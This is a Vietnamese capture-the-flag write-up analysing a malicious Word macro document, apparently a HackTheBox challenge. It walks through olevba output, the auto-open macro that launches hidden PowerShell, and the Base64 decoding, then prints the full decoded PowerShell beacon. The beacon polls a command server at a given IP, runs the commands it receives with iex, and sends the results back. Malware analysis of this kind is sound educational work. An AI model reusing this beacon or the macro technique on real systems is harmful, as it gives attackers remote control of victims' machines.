




# Challenge Halloween Invitation

## 1. Đầu vào challenge

Đầu vào challenge cho file `invitation.docm`. Dùng `olevba` để xem file có chứa VBA macro không:

```bash
python3 -m oletools.olevba invitation.docm
```

---

## 2. Nhận định ban đầu

Thấy được macro hiện tại đang bị obfuscate rất nhiều.



Xác định được 2 hàm nguy hiểm là:





Trong đó:

- `AutoOpen` tự động mở và thực hiện gọi hàm `lmavedb`
- còn hàm `lmavedb` thực hiện đọc payload rồi gọi:

```powershell
powershell -WindowStyle hidden -e
```

---

## 3. Deobfuscate macro

Vì vậy có thể sử dụng các hàm còn lại để deobfuscate nhanh.

Tạo một file Word mới rồi dùng, sau đó sử dụng các hàm trong macro trừ hai hàm nguy hiểm vừa phân tích trên. Sau khi chạy deobfuscate thu được:



### Kiến thức ngoài lề

#### Cách chạy VBA

- Tạo một file Word trống
- mở cửa sổ VBA bằng tổ hợp `Alt + F11` và insert một `Module`
- viết 1 VBA script rồi chạy

---

## 4. Decode Base64 UTF-16LE

Decode Base64 UTF-U16LE thu được đoạn PowerShell sau:

```powershell
$s='77.74.198.52:8080'
$i='d43bcc6d-043f2409-7ea23a2c'
$p='http://'
$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/d43bcc6d -Headers @{"Authorization"=$i}
while ($true){
    $c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/043f2409 -Headers @{"Authorization"=$i})
    if ($c -ne 'None') {
        $r=iex $c -ErrorAction Stop -ErrorVariable e
        $r=Out-String -InputObject $r
        $t=Invoke-RestMethod -Uri $p$s/7ea23a2c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')
    }
    sleep 0.8
}
```

### Nhận xét

Đoạn script này cho thấy macro sau khi deobfuscate sẽ:

- kết nối tới `77.74.198.52:8080`
- dùng header `Authorization` với giá trị:

```text
d43bcc6d-043f2409-7ea23a2c
```

- liên tục polling command từ server
- nếu nhận được lệnh khác `None` thì dùng `iex` để thực thi
- sau đó gửi kết quả thực thi quay trở lại server

---

## 5. Flag

Vậy flag là:

```text
HTB{5up3r_345y_m4cr05}
```

---

## 6. Flow phân tích

```text
invitation.docm
   |
   v
dùng `olevba` để kiểm tra macro
   |
   v
nhận ra macro bị obfuscate mạnh
   |
   v
xác định 2 hàm nguy hiểm:
AutoOpen và lmavedb
   |
   v
AutoOpen gọi lmavedb
   |
   v
lmavedb đọc payload và gọi:
powershell -WindowStyle hidden -e
   |
   v
dùng các hàm còn lại để deobfuscate macro
   |
   v
thu được payload Base64
   |
   v
decode Base64 UTF-16LE
   |
   v
ra PowerShell beacon kết nối về:
77.74.198.52:8080
   |
   v
phân tích loop polling command và gửi kết quả về server
   |
   v
lấy flag

```
---